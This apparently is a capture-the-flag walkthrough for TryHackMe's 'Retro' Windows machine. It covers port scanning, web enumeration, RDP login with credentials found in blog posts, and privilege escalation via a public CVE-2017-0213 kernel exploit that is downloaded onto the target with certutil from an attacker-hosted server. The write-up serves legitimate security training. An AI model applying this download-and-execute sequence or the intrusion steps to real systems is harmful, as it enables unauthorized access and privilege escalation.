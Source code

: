 # Retro

Link: [Retro](https://tryhackme.com/room/retro)

## High-Level Overview

New high score!

## Tools Needed

* Nmap
* Gobuster
* xfreerdp

## Walkthrough

After starting the machine, we perform an initial scan using `nmap`:

```bash
$ sudo nmap -p- -Pn -A -vv -T5 MACHINE:IP
```

We can see that the following ports & services are open:

* 80 - http
* 3389 - rdp

Further scanning the open ports & services using `nmap` for known CVEs:

```bash
$ git clone https://github.com/scipag/vulscan
$ sudo nmap -p80,3389 -A --script=vulscan/vulscan.nse MACHINE:IP -Pn -T5 -vv
```

However there doesn't seem to be anything we can easily exploit.

We will continue enumerating using `gobuster` in directory & vhosts mode, since we know there is a web app running:

```bash
$ gobuster dir -u http://MACHINE:IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
$ gobuster vhost -u http://MACHINE:IP -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt --exclude-length 335
```

We find an interesting result, there seems to be a page located at `MACHINE:IP/retro`. This is our first flag.

Crawling the website we can see there is an author for those posts `http://MACHINE:IP/retro/index.php/author/wade/`. Maybe he also reuses `wade` as his username for this machine.

Additionally, looking at the post at `http://MACHINE:IP/retro/index.php/2019/12/09/ready-player-one/`, we can see the author mentioning how he always misspells a name when logging in. In the comments we find a reference to what he has trouble typing in when he logs in: `parzival`. This might be another username or maybe a password?

Since we know there is rdp enabled, we can try using those credentials to log in using `xfreerdp`:

```bash
$ xfreerdp /v:MACHINE:IP /u:wade /p:parzival
```

And it seems like these were the correct credentials. Upon successfully logging in, we can see a file `users.txt` on the desktop. This file contains our second flag.

Now that we have access to the system, we need to find a way to escalate our privilege. For this, we can consider a kernel exploit such as `https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213`.

First, we must download the file `CVE-2017-0213_x64.zip`, then unzip it:

```bash
$ unzip CVE-2017-0213_x64.zip
```

To transfer this exploit on the victim machine, we can host a http server on our machine where the file is located using the command:

```bash
$ python3 -m http.server 80
```

On the victim machine, we can download the hosted file by using `certutil`. We will open a `PowerShell` window and type the following command:

```powershell
> certutil.exe -urlcache -f http://ATTACKER:IP:80/CVE-2017-0213_x64.exe exploit.exe
```

We can simply run the `exploit.exe` file that was downloaded on the machine. It will spawn a new `cmd` window with Administrator privileges. We can use this window to get our final flag, which is located at `C:\Users\Administrator\Desktop\root.txt.txt`